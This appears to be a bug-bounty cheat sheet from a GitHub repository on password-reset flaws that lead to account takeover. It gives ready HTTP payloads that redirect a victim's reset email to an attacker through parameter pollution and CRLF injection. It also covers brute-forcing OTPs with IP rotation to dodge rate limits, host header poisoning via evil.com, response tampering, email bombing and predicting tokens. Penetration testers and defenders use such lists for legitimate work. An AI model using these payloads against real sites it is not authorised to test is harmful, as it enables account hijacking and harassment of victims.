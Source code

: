 ## Password Reset Flaws

### 1. Account Takeover: Password Reset With Manipualating Email Parameter

```
POST /reset
[...]
1 email= victim@gmail.com&email=attacker@gmil.com
or
2 email= victim@gmail.com%20email=attacker@gmil.com
or
3 email= victim@gmail.com |email=attacker@gmil.com
or
4 email= "victim@gmail.com%0d%0acc:attacker@gmil.com"
or
5 email="victim@mail.com","attacker@mail.com"
or
{"email":["victim@mail.tld","atracker@mail.tld"]}
or
6 email= victim@gmail.com&code= my password reset token
```
https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be
https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/
https://twitter.com/HusseiN98D/status/1254888748216655872
https://twitter.com/HusseiN98D/status/1254888748216655872/photo/1

### 2. Bruteforce the OTP code
```
POST /reset
[...]
email=victim@mail.com&code=$123456$

```
 *Use IP-Rotator on burpsuite to bypass IP based ratelimit.

### 3. Host header Injection
```
POST /reset
Host: evil.com
[...]
email=victim@mail.com
```
```
POST /reset
Host: target.com
X-Forwarded-Host: evil.com
[...]
email=victim@mail.com
```
https://hackerone.com/reports/226659
https://hackerone.com/reports/167631
https://www.acunetix.com/blog/articles/password-reset-poisoning/
https://pethuraj.com/blog/how-i-earned-800-for-host-header-injection-vulnerability/
https://medium.com/@swapmaurya20/password-reset-poisoning-leading-to-account-takeover-f178f5f1de87


### 4. Full Account Takeover via Changing Email And Password of any User through API Parameters
```
POST /api/changepass
[...]
("form": {"email":"victim@email.tld","password":"12345678"})

```
Reference

  https://medium.com/@adeshkolte/full-account-takeover-changing-email-and-password-of-any-user-through-api-parameters-3d527ab27240


### 5.Response manipulation: Replace Bad Response With Good One
```
HTTP/1.1 401 Unauthorized
(“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”)

Change Response

HTTP/1.1 200 OK
(“message”:”success”,”statusCode:200,”errorDescription”:”Success”)
```
 https://medium.com/@innocenthacker/how-i-found-the-most-critical-bug-in-live-bug-bounty-event-7a88b3aa97b3

### 6.No Rate Limiting: Email Bombing

    Start the Burp Suite and Intercept the password reset request
    Send to intruder
    Use null payload

 https://hackerone.com/reports/280534
 https://hackerone.com/reports/794395
    
### 7.Password Reset Token Leak Via Referrer
  https://hackerone.com/reports/342693
  https://hackerone.com/reports/272379
  https://hackerone.com/reports/737042
  https://medium.com/@rubiojhayz1234/toyotas-password-reset-token-and-email-address-leak-via-referer-header-b0ede6507c6a
  https://medium.com/@shahjerry33/password-reset-token-leak-via-referrer-2e622500c2c1

### 8. Using Expired Token
Check if the expired token can be reused

### 9. Find out how the tokens generate
- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user
Use Burp Sequencer to find the randomness or predictability of tokens.
> [For Example](https://medium.com/bugbountywriteup/how-i-discovered-an-interesting-account-takeover-flaw-18a7fb1e5359)
